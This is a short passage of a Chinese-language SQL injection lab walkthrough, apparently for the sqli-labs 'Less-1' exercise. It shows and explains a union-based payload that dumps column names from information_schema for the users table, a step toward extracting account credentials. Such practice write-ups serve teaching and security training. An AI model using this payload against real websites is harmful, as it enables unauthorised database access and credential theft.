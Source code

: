 ![Less-1_17](./img/Less-1_17.png)



5. 注入<code>?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+</code>爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来想得到该表下的字段名以及内容。

~~~ shell
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

该语句意思是查询information_schema数据库下的columns表里table_name字段是users的所有column_name内容。注意table_name字段不是只存在于tables表也存在于columns表中;其实是表示所有字段对应的表名;
~~~

![Less-1_17](./img/Less-1_17.png)
